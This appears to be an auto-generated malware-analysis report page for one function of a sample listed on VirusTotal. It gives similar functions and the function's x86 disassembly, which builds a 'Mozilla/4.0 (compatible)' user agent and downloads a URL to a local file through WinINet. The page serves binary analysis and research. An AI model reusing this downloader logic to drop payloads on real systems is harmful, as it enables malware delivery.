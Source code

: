 ```yaml
---
layout: post
title:  "fcn.00407410 @ 37599acf0ccd223da88bef73a018ad03"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00407410
- **Origin (md5):** 37599acf0ccd223da88bef73a018ad03
- **VirusTotal:** [virustotal.com/gui/file/37599acf0ccd223da88bef73a018ad03][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>
<span class="tag" id="HTTP">HTTP</span>


# Similar Functions

1. [fcn.10081a70][similar_1_ref] (sim.: 0.8761468516878201)
2. [fcn.0040303e][similar_2_ref] (sim.: 0.876027570023065)
3. [fcn.00452840][similar_3_ref] (sim.: 0.8736830601585889)
4. [fcn.10001440][similar_4_ref] (sim.: 0.8713503892886741)
5. [fcn.00420fa0][similar_5_ref] (sim.: 0.8693447042388999)


# Disassembled Code

{% highlight nasm %}
sub esp,0x428
push ebx
push esi
xor ebx,ebx
mov dl,0x69
mov al,0x6c
mov cl,0x61
push edi
mov dword[esp+0x28],ebx
mov dword[esp+0x30],ebx
mov byte[esp+0xc],0x4d
mov byte[esp+0xd],0x6f
mov byte[esp+0xe],0x7a
mov byte[esp+0xf],dl
mov byte[esp+0x10],al
mov byte[esp+0x11],al
mov byte[esp+0x12],cl
mov byte[esp+0x13],0x2f
mov byte[esp+0x14],0x34
mov byte[esp+0x15],0x2e
mov byte[esp+0x16],0x30
mov byte[esp+0x17],0x20
mov byte[esp+0x18],0x28
mov byte[esp+0x19],0x63
mov byte[esp+0x1a],0x6f
mov byte[esp+0x1b],0x6d
mov byte[esp+0x1c],0x70
mov byte[esp+0x1d],cl
mov byte[esp+0x1e],0x74
mov byte[esp+0x1f],dl
mov byte[esp+0x20],0x62
mov byte[esp+0x21],al
mov byte[esp+0x22],0x65
mov byte[esp+0x23],0x29
mov byte[esp+0x24],bl
call fcn.004073e0
push ebx
push ebx
push ebx
lea eax,[esp+0x18]
push ebx
push eax
call dword[sym.imp.WININET.dll_InternetOpenA]
mov edi,eax
cmp edi,ebx
mov dword[esp+0x2c],edi
jne 0x4074c8
pop edi
pop esi
xor eax,eax
pop ebx
add esp,0x428
ret 
call fcn.004073e0
mov ecx,dword[esp+0x438]
push ebx
push 0x80000000
push ebx
push ebx
push ecx
push edi
call dword[sym.imp.WININET.dll_InternetOpenUrlA]
mov esi,eax
cmp esi,ebx
jne 0x4074f6
pop edi
pop esi
xor eax,eax
pop ebx
add esp,0x428
ret 
push ebp
call fcn.004073e0
mov edx,dword[esp+0x440]
push ebx
push ebx
push 2
push ebx
push ebx
push 0x40000000
push edx
call dword[sym.imp.KERNEL32.dll_CreateFileA]
mov ebp,eax
cmp ebp,0xffffffff
je 0x40757b
mov ebx,dword[sym.imp.WININET.dll_InternetReadFile]
mov ecx,0x100
xor eax,eax
lea edi,[esp+0x38]
rep stosd dword es:[edi],eax
call fcn.004073e0
lea eax,[esp+0x2c]
lea ecx,[esp+0x38]
push eax
push 0x400
push ecx
push esi
call ebx
call fcn.004073e0
mov eax,dword[esp+0x2c]
lea edx,[esp+0x34]
push 0
push edx
lea ecx,[esp+0x40]
push eax
push ecx
push ebp
call dword[sym.imp.KERNEL32.dll_WriteFile]
mov eax,dword[esp+0x2c]
test eax,eax
ja 0x407522
push ebp
call dword[sym.imp.KERNEL32.dll_CloseHandle]
mov edi,dword[esp+0x30]
mov ebx,1
call fcn.004073e0
push esi
mov esi,dword[sym.imp.WININET.dll_InternetCloseHandle]
call esi
call fcn.004073e0
push edi
call esi
pop ebp
pop edi
mov eax,ebx
pop esi
pop ebx
add esp,0x428
ret 
{% endhighlight %}


[similar_1_ref]: /report/fcn.10081a70@8761fe5e7bef67f1579f600248f8f0cc
[similar_2_ref]: /report/fcn.0040303e@470263fe7e7cc115b95cd041d643e3b5
[similar_3_ref]: /report/fcn.00452840@a4175bd1311845689d3bca41d1d095ff
[similar_4_ref]: /report/fcn.10001440@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_5_ref]: /report/fcn.00420fa0@be7fba7cc724acf4ae2900d99e0fc9c3
[virustotal_ref]: https://www.virustotal.com/gui/file/37599acf0ccd223da88bef73a018ad03